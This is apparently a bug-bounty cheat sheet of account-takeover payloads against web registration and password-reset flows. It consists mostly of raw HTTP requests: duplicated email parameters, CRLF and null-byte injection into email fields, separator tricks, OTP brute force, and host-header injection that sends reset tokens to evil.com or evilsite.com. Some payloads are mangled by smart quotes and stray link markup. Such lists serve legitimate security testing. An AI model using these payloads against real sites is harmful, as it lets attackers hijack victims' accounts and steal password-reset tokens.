 ## Through Email Replacing when Registering Account (testing/abuse email filter)

```
email@email.com,victim@hack.secry
email@email“,”victim@hack.secry
email@email.com:victim@hack.secry
email@email.com%0d%0avictim@hack.secry
%0d%0avictim@hack.secry
%0avictim@hack.secry
victim@hack.secry%0d%0a
victim@hack.secry%0a
victim@hack.secry%0d
victim@hack.secry%00
victim@hack.secry{{}}

Example Request:

name=HACKER&email=HACKER@wearehackerone.com&email=victim@hack.secry&username=hackerz&password=THIS_ISPASSWORD_TO_TAKEOVER&password-confirmation=THIS_ISPASSWORD_TO_TAKEOVER&_csrf_token=XXX7139a5209c08aec2dbff06f5ab5XXXXXXXXXX
```

## Through Parameter Pollution in Reset Password

```
POST /passwordReset  
[…]  
email=victim@yahoo.com&email=hacker@yahoo.com

or in JSON:
{“email”:[“andrew@hotmail.com”,”hacker@gmail.com”]}
```

## Through OTP Code Bruteforce

```
POST /reset  
[…]  
email=victim@mail.com&code=$12345$

u can use burp intruder
```

## Through Host Header Injection

```
POST /reset  
Host: evilsite.com  
[…]  
email=victim@mail.com
------------------------------------------------------------------------
POST /reset  
Host: target.com  
X-Forwarded-Host: evil.com  
[…]  
email=victim@mail.com
```
And the victim will receive the **reset link** email with with “**token**” will contain “**evilsite.com**“, so when the user click the link, the “token” will logged/extracted to the evilsite.com server log

## Using Separator in Value of the Parameter

```
POST /PWreset  
[…]  
email=victim@mail.com**,**hacker@mail.com
----------------------------------------------------------------------------------
POST /PWreset  
[…]  
email=victim@mail.com**%20**hacker@mail.com
----------------------------------------------------------------------------------
POST /PWreset  
[…]  
email=victim@mail.com**|**hacker@mail.com
----------------------------------------------------------------------------------
POST /PWreset  
[…]  
email=victim@mail.com**%00**hacker@mail.com
```

## Try input No Domain in Value of the Parameter to Account Takeover

```
POST /registeraccount  
[…]  
email=victimemail
```

## Try input No TLD in Email Value of the Parameter

```
POST /reset  
[…]  
email=victimemail@mail.secry
----------------------------------------------------------------------------------
POST /reset  
[…]  
[email=victim@mail.com%0a%0dcc:hacker@secry.me](https://email%3Dvictim%40mail.com%0a%0dcc:hacker@secry.me/)
```

## Try Re-Sign up using Same Email

```
POST /newaccount  
[…]  
email=victim@secry.me&password=1234

After sign up using victim email, try signup again but using different password

POST /newaccount  
[…]  
email=victim@secry.me&password=yourehacked
```

## If there is JSON data in requests, add comma and input your hacker email

```
POST /newaccount  
[…]  
{“email”:“[victim@mail.com](mailto:victim@mail.com)”,”[hacker@secry.me](mailto:hacker@secry.me)”,“token”:”xxxxxxxxxx”}
```

